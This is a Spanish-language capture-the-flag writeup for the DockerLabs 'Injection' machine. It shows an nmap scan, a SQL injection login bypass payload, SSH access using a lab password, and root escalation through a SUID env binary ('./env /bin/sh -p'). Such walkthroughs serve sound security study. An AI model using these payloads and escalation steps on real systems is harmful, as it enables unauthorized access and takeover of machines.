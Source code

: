 ```yaml
---
layout: ../../layouts/MarkdownWriteupLayout.astro
name: "Máquina Injection"
url: "writeups/Injetion"
difficulty: "Muy Fácil"
logo: "https://www.dockerlabs.es/images/logos/logo.png"
oficial: "https://www.dockerlabs.es/"
platform: "DockerLabs"
vulnerabilities: ["SQL Injection"]
inProgress: false
title: "Injection"
date: "07-09-2024"
---
```


<!-- Espaciado superior -->
<article
  class="mt-16 mr-8 ml-8 text-black dark:text-white justify-center items-center"
>
  <h1 class="text-2xl font-bold mb-4 text-black dark:text-white">
    Descripción
  </h1>

  <p class="mb-6">
    En este writeup se describe el proceso para explotar una vulnerabilidad
    comun y sensilla de SQL Injection en la máquina Injection del entorno de
    pruebas. Se incluyen detalles sobre la configuración, las herramientas
    utilizadas y los pasos seguidos para lograr el objetivo.
  </p>

  <h2 class="text-2xl font-bold mb-4 text-black dark:text-white">
    Paso 1: Reconocimiento
  </h2>

  <p class="mb-6">
    Se realizó un escaneo inicial para identificar los servicios en ejecución y
    las posibles vulnerabilidades.
  </p>

  <ul class="list-disc pl-5 mb-6 text-black dark:text-white">
    <li>
      <strong class="text-black dark:text-white">Herramienta utilizada</strong>:
      Nmap
    </li>
    <li>
      <strong class="text-black dark:text-white">Comando</strong>: <code
        class="bg-gray-200 px-2 py-1 rounded"
        >nmap -sCV -sS -n -Pn -p- 172.17.0.2</code
      >
    </li>
    <li>
      <strong class="text-black dark:text-white">Puertos abiertos</strong>: 22 y
      80
    </li>
  </ul>

  <h2 class="text-2xl font-bold mb-4 text-black dark:text-white">
    Paso 2: Explotación
  </h2>
  <p class="mb-6">
    Ponemos la ip de la máquina en el navegador para poder observar la página.
    Intentamos iniciar sesión con las credenciales por default como admin:admin,
    root:root, root:admin. Al probar y no tener éxito al iniciar sesión,
    realizamos pruebas de <strong class="text-black dark:text-white"
      >Injection SQL</strong
    >.
  </p>
  <ul class="list-disc pl-5 mb-6">
    <li>
      <strong class="text-black dark:text-white">Comando SQL</strong>: <code
        class="bg-gray-200 px-2 py-1 rounded"
        >'or 1=1-- -
      </code>
    </li>
  </ul>
  <p class="mb-6">En el caso de la contraseña ponemos una aleatoria.</p>
  <img
    class="rounded-xl"
    src="/labs/injection/login.png"
    alt="login de 172.17.0.2"
  />

  <p class="mb-6">
    Determinamos que funciono correctamente y tenemos un inicio de sesón
    exitoso.
  </p>

<img
    class="rounded-xl"
    src="/labs/injection/home.png"
    alt="home de 172.17.0.2"
  />

  <h2 class="text-2xl font-bold mb-4 text-black dark:text-white">
    Paso 3: Acceso al servidor
  </h2>

  <p class="mb-6">
    Una vez explotada la vulnerabilidad. tratamos de acceder al servidor
  </p>

  <ul class="list-disc pl-5 mb-6">
    <li><strong class="text-black dark:text-white">Conexión</strong>: SSH</li>
    <li>
      <strong class="text-black dark:text-white">Comando</strong>: <code
        class="bg-gray-200 px-2 py-1 rounded">ssh dylan@172.17.0.2</code
      >
    </li>
  </ul>

  <p class="mb-6">
    Pegamos la contraseña que nos dio el home de la página: <strong
      class="text-black dark:text-white">KJSDFG789FGSDF78</strong
    >
  </p>

  <h2 class="text-2xl font-bold mb-4 text-black dark:text-white">
    Paso 4. Escalada de privilegios
  </h2>

  <p class="mb-6">
    Hemos accedido al servidor por medio de SSH, ahora tenemos que escalar
    privilegios.
  </p>

  <p class="mb-6">Buscamos binarios que se ejecuten como sudo:</p>
  <code class="bg-gray-200 px-2 py-1 rounded">sudo -l</code>
  <p class="mb-6">
    Nos devolberá este error:<code class="bg-gray-200 px-2 py-1 rounded"
      >-bash: sudo: command not found
    </code>
  </p>
  <p class="mb-6">Por lo que buscaremos con permisos de suid 4000:</p>
  <code class="bg-gray-200 px-2 py-1 rounded"
    >find / -perm -4000 2>/dev/null></code
  >
  <p class="mb-6">Al ejecutar el comando nos mostrarará lo siguiente:</p>

  <pre
    class="bg-gray-200 rounded text-black">
<code class="language-python">
/usr/bin/gpasswd
/usr/bin/env
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
</code>
  </pre>

  <p class="mb-6">Observamos que podemos usar /env, por lo que accedemos a su carpeta /usr/bin/:</p>

<p class="mb-6">Ejecutamos para escalar privilegios: <code class="bg-gray-200 px-2 py-1 rounded">./env /bin/sh -p
</code></p>

<h2 class="text-2xl font-bold mb-4 text-black dark:text-white">Máquina resuelta</h2>
 <p class="mb-6">Ya hemos escalado privilegios:</p>
  <pre
    class="bg-gray-200 p-4 rounded text-black">
<code class="language-python">
whoami
-----
root
</code>
  </pre>

</article>